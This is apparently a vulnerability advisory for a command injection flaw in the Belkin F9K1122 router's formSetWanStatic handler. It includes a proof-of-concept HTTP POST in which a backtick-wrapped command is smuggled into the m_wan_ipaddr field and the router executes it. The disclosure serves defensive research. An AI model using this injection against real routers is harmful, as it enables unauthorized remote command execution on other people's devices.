 # Belkin Vulnerability

Vendor:Belkin

Product:F9K1122

Version:1.00.33

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in Belkin router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `webs` binary:

In `formSetWanStatic` function, `m_wan_ipaddr、m_wan_netmask、m_wan_gateway、m_wan_staticdns1、m_wan_staticdns2` is directly passed by the attacker, so we can control the `m_wan_ipaddr、m_wan_netmask、m_wan_gateway、m_wan_staticdns1、m_wan_staticdns2` to attack the OS.

As you can see here, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `m_wan_ipaddr` as **`ping 192.168.1.6`** , and the router will excute it,such as:

```http
POST /goform/formSetWanStatic HTTP/1.1
Host: 192.168.1.5
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 142
Origin: http://192.168.1.5
Connection: close
Referer: http://192.168.1.5/wireless_encrypt.asp?t=1750407510926
Upgrade-Insecure-Requests: 1

fromBBS=1&m_wan_ipaddr=`ping 192.168.1.6`&m_wan_netmask=&m_wan_gateway=&m_wan_staticdns1=&m_wan_staticdns2=&m_wan_staticdns1=&m_wan_staticdns2=&GWmode=
```



## Result

Ping!

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>
